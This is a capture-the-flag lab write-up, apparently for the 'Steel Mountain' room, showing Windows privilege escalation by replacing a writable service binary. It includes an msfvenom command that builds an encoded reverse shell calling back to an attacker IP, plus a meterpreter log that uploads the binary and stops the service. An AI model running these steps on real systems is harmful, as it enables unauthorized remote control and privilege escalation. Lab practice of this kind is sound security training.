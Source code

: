 Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability? *AdvancedSystemCareService9*

```
                 IdentityReference=STEELMOUNTAIN\bill; Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

```
The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!
Use msfvenom to generate a reverse shell as an Windows executable.
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.81.220 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
Upload your binary and replace the legitimate one. Then restart the program to get a shell as root.
Note: The service showed up as being unquoted (and could be exploited using this technique), however, in this case we have exploited weak file permissions on the service files instead. *No answer needed*

```
PS > ^C
Terminate channel 3? [y/N]  n

PS > ^Z
Background channel 3? [y/N]  y
meterpreter > cd "C:\Program Files (x86)\IObit\"
[-] Parse error: Unmatched quote: "cd \"C:\\Program Files (x86)\\IObit\\\""
meterpreter > cd 'C:\Program Files (x86)\IObit\'
meterpreter > dir
Listing: C:\Program Files (x86)\IObit
=====================================

Mode           Size   Type  Last modified            Name
----           ----   ----  -------------            ----
040777/rwxrwx  32768  dir   2022-08-25 13:33:46 -04  Advanced SystemCare
rwx                         00
040777/rwxrwx  16384  dir   2019-09-27 01:35:24 -04  IObit Uninstaller
rwx                         00
040777/rwxrwx  4096   dir   2019-09-26 11:18:50 -04  LiveUpdate
rwx                         00

meterpreter > upload Advanced.exe
[*] uploading  : /home/kali/Downloads/steel_mountain/Advanced.exe -> Advanced.exe
[*] Uploaded 15.50 KiB of 15.50 KiB (100.0%): /home/kali/Downloads/steel_mountain/Advanced.exe -> Advanced.exe
[*] uploaded   : /home/kali/Downloads/steel_mountain/Advanced.exe -> Advanced.exe
meterpreter > shell
Process 4944 created.
Channel 5 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\IObit>sc stop AdvancedSystemCareService9
sc stop AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 4  RUNNING 
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
```